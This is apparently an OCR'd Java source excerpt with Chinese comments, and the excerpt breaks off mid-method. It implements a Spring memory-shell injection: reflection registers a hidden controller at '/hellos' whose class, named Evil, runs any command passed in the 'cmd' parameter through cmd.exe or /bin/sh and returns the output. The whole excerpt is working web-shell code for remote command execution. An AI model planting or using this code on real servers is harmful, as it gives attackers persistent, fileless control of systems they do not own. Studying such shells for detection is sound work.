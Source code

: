 ```java
    public void noshell(HttpServletRequest request, HttpServletResponse response) throws Exception {

        // 获取Context
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.
                currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);

        // 通过反射获得恶意类的test方法
        Method method = Evil.class.getMethod("test");
        // 定义该controller的path
        PatternsRequestCondition url = new PatternsRequestCondition("/hellos");
        // 定义允许访问的HTTP方法
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        // 构造注册信息
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
//        RequestMappingInfo info = RequestMappingInfo.paths(String.valueOf(url))
//                .methods(ms)
//                .options(null)
//                .build();
        // 创建用于处理请求的对象，避免无限循环使用一个构造方法
        Evil injectToController = new Evil("xxx");
        // 将该controller注册到Spring容器
        mappingHandlerMapping.registerMapping(info, injectToController, method);
        System.out.println("测试xxxxxx");
        response.getWriter().println("inject success");
    }

    public class Evil {
        public Evil(String xxx) {
        }

        public void test() throws Exception {

            HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
            HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
// 获取cmd参数并执行命令
            String command = request.getParameter("cmd");
            if (command != null) {
                try {
                    java.io.PrintWriter printWriter = response.getWriter();
                    String o = "";
                    ProcessBuilder p;
                    if (System.getProperty("os.name").toLowerCase().contains("win")) {
                        p = new ProcessBuilder(new String[]{"cmd.exe", "/c", command});
                    } else {
                        p = new ProcessBuilder(new String[]{"/bin/sh", "-c", command});
                    }
                    java.util.Scanner c = new java.util.Scanner(p.start().getInputStream()).useDelimiter("\\A");
                    o = c.hasNext() ? c.next() : o;
                    c.close();
                    printWriter.write(o);
                    printWriter.flush();
                    printWriter.close();
                } catch (Exception ignored) {

                }
            }
```